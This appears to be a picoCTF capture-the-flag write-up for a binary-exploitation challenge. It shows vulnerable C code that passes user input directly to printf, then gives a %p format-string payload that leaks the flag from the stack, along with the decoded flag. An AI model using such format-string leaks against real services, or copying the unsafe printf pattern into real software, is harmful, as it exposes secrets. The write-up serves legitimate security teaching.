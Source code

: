 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/qugoytN.png
points: 300
solves: 2308
tags: binary-exploitation format-strings %p
date: 1337-11-28
comments: false
---
```


Story telling class 1/2  
I'm just copying and pasting with this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/flag-leak-vuln). What can go wrong? You can view [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/flag-leak-vuln.c) here. And connect with it using:  
`nc saturn.picoctf.net [port #]`  

---

We're given a binary ELF file and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Hold on, we're calling `readflag()` during our program execution in `vuln()` -- doesn't that mean that the flag, i.e. `FILE *f`, will be stored in the stack? Since it is a local variable declared and initialized during the function call, the actual values of the flag should definitely be located somewhere in the stack. Let's test our theory out in GDB.  

First create a `flag.txt` and fill it with some text you'll recognize, enable `vuln`'s execution, and launch GDB.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">chmod +x vuln
nano flag.txt
gdb vuln</code>
</pre>

Now let's set a breakpoint after input is received to see what stack offset our input is at and if the flag is in the stack.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">disass vuln 
b *vuln+95 # inserts breakpoint at the `<puts@plt>` function call
r
x/100x $esp # outputs current stack for 100 bytes</code>
</pre>


After the following sequence of commands, you will notice that  user input lies at `$esp+0x10` and the flag lies at some later offset in the stack depending on the size of the user input.    

Since the flag lies on the stack, we can make use of the format string `%p`, the format specifier for addresses, to output bytes on the stack and thus obtain the flag.  
Submit a payload of `%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p` to the program (this can be easily written by activating python in terminal and writing `print(‘%p’*N)`, where N is the number of %p’s you need. The maximum of N is 63, in this case, as the scanf function has a buffer of 127 bytes.)  
Note that each %p outputs 4 bytes on the stack. Since each %p itself takes up 2 bytes on the stack, each %p we add is essentially letting us look an additional 2 bytes into the stack.  
Remove the `0x`'s and `(nil)`'s and put it into a hex to ascii converter.  
Notice that the hex string `6f6369707b4654436b34334c5f676e3167346c466666305f3474535f395f6b63303666357d373136` should return the ascii string:  

    ocip{FTCk43L_gn1g4lFff0_4tS_9_kc06f5}716

Every four characters is reversed due to little endianness, thus, to get the flag, reverse every group of four characters to return:  

    picoCTF{L34k1ng_Fl4g_0ff_St4ck_95f60617}
